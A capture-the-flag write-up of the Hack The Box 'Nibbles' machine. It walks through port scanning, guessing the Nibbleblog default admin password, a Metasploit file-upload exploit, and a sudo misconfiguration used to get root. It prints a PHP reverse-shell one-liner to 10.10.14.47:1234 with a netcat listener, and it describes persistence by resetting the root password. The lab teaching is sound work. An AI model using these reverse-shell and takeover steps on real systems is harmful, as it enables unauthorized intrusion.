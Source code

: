 ```yaml
---
layout: post
title: "HackTheBox: Nibbles write-up"
date: 2018-06-27
excerpt: "Simple rooting thanks to default passwords and file privilege misconfigurations."
tags: [Hack The Box, Pentesting, Default Password, Nibbleblog, File privileges]
comments: true
feature: https://www.linuxcloudvps.com/blog/wp-content/uploads/2016/05/nibbleblog.jpg
---
```


# Hack The Box: Nibbles machine write-up

This writeup will be shorter than usual given that the machine was fairly easy to root. The ip is 10.10.10.75.

#### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA first 10.10.10.64
```

And the result was:

```sh
# Nmap 7.01 scan initiated Tue Jun 26 12:27:14 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|_  256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 26 12:27:38 2018 -- 1 IP address (1 host up) scanned in 25.00 seconds
```

Not many things in here, so I decide to check the webserver on port 80. Initially I don't find anything interesting, just a 'hello world' message, but then I inspect the server's response and find out about a directory called 'nibbleblog'.

*Initial file*

![Img](/assets/posts_details/Nibbles/images/initial.png "Img")

*Intercepted response*

![Img](/assets/posts_details/Nibbles/images/burp.png "Img")

*Blog on /nibbleblog directory*

![Img](/assets/posts_details/Nibbles/images/nb.png "Img")

That's when I fire up DirBuster and get down to business. I set the initial directory to be nibbleblog and let it run. It enumerated over [400 directories/files](files/DirBusterReport-10.10.10.75-80.txt), but only one was of interest: `admin.php`.

*Admin.php login*

![Img](/assets/posts_details/Nibbles/images/login.png "Img")

As I hadn't found any credentials anywhere, it looked like we had to guess the password. Trying with the following credentials resulted in success:

* Username: admin
* Password: nibbles

#### Exploit

Once in, we had to find some vulnerability which would allow us to get RCE. After googling for a while, I came across one in metasploit. It was `multi/http/nibbleblog_file_upload`. We couldn't have used it earlier, as it required the username and password to log in to the control system.

It basically takes advantage of an image vulnerability which lets you upload php code instead. So, after setting the parameters, we get a meterpreter session

*Meterpreter session*

![Img](/assets/posts_details/Nibbles/images/msp.png "Img")

However, this is not a real shell, so there are many limitations (we can execute limited commands like `cat` or `ls`, but not `whoami`, for instance). That said, we could read the user flag.

To get around this issue, I used a php one-liner reverse shell and listened on another terminal window with netcat. Besides, I changed the metasploit payload to `php/reverse_php` so that I could execute the one-liner.

* `php -r '$sock=fsockopen("10.10.14.47",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

* `nc -lnvp 1234`

*New payload with fully upgraded reverse php shell*

![Img](/assets/posts_details/Nibbles/images/php.png "Img")

#### Root

After reading user flag we initially discover a zip file called `personal.zip`. I unzipped it and going down two directories to `personal/stuff` I come across a file called `monitor.sh`.

The first thing I usually do is run `sudo -l` and then `linenum.sh`. Well, this time it wasn't even necessary to do the second one, as `sudo -l` revealed that we could edit the file `monitor.sh` and run it as sudo. And everyone knows that means we own the box.

*`sudo -l` output*

![Img](/assets/posts_details/Nibbles/images/sudol.png "Img")

We can just write to the file and then run it:

*Getting the root hash*

![Img](/assets/posts_details/Nibbles/images/root.png "Img")

In order to achieve persistency (until the root password is changed), we can set the root password and log in through ssh:

*Getting to be root*

![Img](/assets/posts_details/Nibbles/images/pers1.png "Img")
---
![Img](/assets/posts_details/Nibbles/images/pers2.png "Img")

*Diego Bernal Adelantado*
